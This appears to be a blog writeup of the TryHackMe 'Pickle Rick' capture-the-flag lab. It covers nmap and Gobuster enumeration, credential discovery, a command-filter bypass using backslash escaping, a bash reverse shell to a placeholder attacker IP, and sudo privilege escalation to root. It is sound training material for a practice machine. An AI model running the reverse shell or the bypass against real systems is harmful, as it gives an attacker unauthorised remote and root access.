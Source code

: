 ```yaml
---
layout: post
title:  "THM - Pickle Rick Writeup"
date:   2022-09-11
author:
  - "Mario Raciti"
tags: ctf
---
```


This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
<!-- readmore -->

There is only one task, indicating that we have to get three ingredients (flags). So without any further ado, let's begin our game!

> TryHackMe CTF Room: <https://tryhackme.com/room/picklerick>

## Nmap Scan

Let's start this room by running a classic nmap scan:

```sh
$ nmap -sC -sV $IP -oN logs/nmap

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 00:01 CEST
Nmap scan report for 10.10.166.156
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1b:e2:11:5e:45:4a:75:91:cb:d5:ec:00:2a:1d:cf:65 (RSA)
|   256 1b:78:9f:27:b3:aa:16:c2:b4:c6:be:f8:d2:61:7f:ba (ECDSA)
|_  256 b4:66:1e:a1:27:d3:3c:cc:e1:38:44:f4:79:3c:9e:81 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.51 seconds
```

Well, it seems we have only two open ports: `22 (SSH)` and `80 (HTTP)`.

## Web Directories Enumeration

Let's start by visiting the homepage of the web server listening on port 80. By inspecting the source page, we can notice that it contains the following comment at the footer:

```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Thus, we can guess that a candidate username for a login could be `R1ckRul3s`.

Now let's look if the web server provides a `robots.txt` file:

```
GET http://$IP/robots.txt

Wubbalubbadubdub
```

Okay maybe `Wubbalubbadubdub` could be a password (?), that is funny though. Furthermore, by trying to discover some admin page, we can find a login page at the `/login.php`endpoint.

### Gobuster

Since we didn't find any useful information apart from the login page, let's enumerate directories using Gobuster with the [common.txt](https://github.com/digination/dirbuster-ng/blob/master/wordlists/common.txt) list:

```sh
$ gobuster dir --url $IP -w common.txt -o logs/gobuster.log

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.166.156
[+] Threads:        10
[+] Wordlist:       common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/01 00:13:36 Starting gobuster
===============================================================
/assets (Status: 301)
===============================================================
2020/10/01 00:13:49 Finished
===============================================================
```

As we can see, the tool found only one directory: `/assets`. Therefore we can investigate on that:

```
GET http://$IP/assets/

Parent Directory   -  
bootstrap.min.css 2019-02-10 16:37 119K  
bootstrap.min.js 2019-02-10 16:37 37K  
fail.gif 2019-02-10 16:37 49K  
jquery.min.js 2019-02-10 16:37 85K  
picklerick.gif 2019-02-10 16:37 222K  
portal.jpg 2019-02-10 16:37 50K  
rickandmorty.jpeg 2019-02-10 16:37 488K  
```

It seems that we found some... rubbish!

## First ingredient

Let's try the `R1ckRul3s:Wubbalubbadubdub` login combination in the portal login page found at `$IP/login.php`.

Bingo! We have access to the command panel. Thus, we can try to execute an ls command to see if something is interesting:

```sh
$ ls

Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

We can try to read the content of `Sup3rS3cretPickl3Ingred.txt`:

```sh
$ cat Sup3rS3cretPickl3Ingred.txt

Command disabled to make it hard for future PICKLEEEE RICCCKKKK
```

Damn. But we can bypass that by escaping every char with a backslash:

```sh
$ \c\a\t Sup3rS3cretPickl3Ingred.txt

***first_ingredient***
```

## Second ingredient

Let's read the content of the `clue.txt` file:

```sh
$ \c\a\t clue.txt

Look around the file system for the other ingredient.
```

Since we can perform command injections, we can try to get a reverse shell. Firstly, we can run netcat and make it listen on port 4444, then we can simply execute the following in the command panel webpage:

```sh
bash -c "bash -i >& /dev/tcp/<attacker_IP>/4444 0>&1"
```

And voilà! We got a reverse shell:

```sh
$ nc -lvnp 4444

Connection from 10.10.166.156:56724
bash: cannot set terminal process group (1341): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-166-156:/var/www/html$ 
```

Now we can go in the home directory and find the second ingredient in Rick's home:

```sh
www-data@ip-10-10-166-156:/var/www/html$ cd ../../home
cd ../../home
bash: cd: ../../home: No such file or directory
www-data@ip-10-10-166-156:/var/www/html$ cd ../../../home
cd ../../../home
www-data@ip-10-10-166-156:/home$ ls
ls
rick
ubuntu
www-data@ip-10-10-166-156:/home$ cd rick
cd rick
www-data@ip-10-10-166-156:/home/rick$ ls
ls
second ingredients
www-data@ip-10-10-166-156:/home/rick$ cat *
cat *
***second_ingredient***
```

## Third ingredient

To get the latest ingredient we have to elevate our privileges. Let's check out a `sudo -l` for our current user, `www-data`:

```sh
www-data@ip-10-10-166-156:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-166-156.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-166-156.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Well, easy peasy! It seems that the user `www-data` is allowed to perform all commands as root. We can finally get the third ingredient:

```sh
www-data@ip-10-10-166-156:/var/www/html$ sudo su
sudo su
/bin/bash -i
bash: cannot set terminal process group (1341): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-10-166-156:/var/www/html# cd 
cd
root@ip-10-10-166-156:~# ls 
ls 
3rd.txt
snap
root@ip-10-10-166-156:~# cat 3rd.txt
cat 3rd.txt
***third_ingredient***
```

---

### That's all folks

You can find the files related to this CTF at <https://github.com/tsumarios/CTF-Writeups/tree/master/THM/Pickle-Rick>.

